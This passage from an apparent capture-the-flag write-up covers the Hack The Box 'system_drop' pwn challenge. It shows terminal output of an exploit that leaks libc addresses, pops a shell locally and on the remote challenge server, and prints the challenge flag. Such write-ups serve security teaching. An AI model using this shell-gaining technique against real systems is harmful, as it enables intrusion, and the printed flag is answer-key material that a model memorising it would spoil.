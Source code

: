 Run it locally:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ python3 exploit.python
[*] '/ctf_htb/cyber_apocalypse/pwn/system_dropsystem_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/ctf_htb/cyber_apocalypse/pwn/system_drop/system_drop': pid 26224
[*] Leaked alarm: 0x7f3f4fdda610
[*] Libc system @ 0x7f3f4fd45550
[*] Libc bin_sh @ 0x7f3f4fea9e1a
[*] Switching to interactive mode
$ ls
exploit.py  system_drop
```

And we pop shell, Let's run it with ```REMOTE=1``` to get the flag:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ python3 exploit.python REMOTE=1
[*] '/ctf_htb/cyber_apocalypse/pwn/system_dropsystem_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 46.101.23.157 on port 31121: Done
[*] Switching to interactive mode
$ cat flag.txt
CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}	
```

And we get the flag ```CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}```.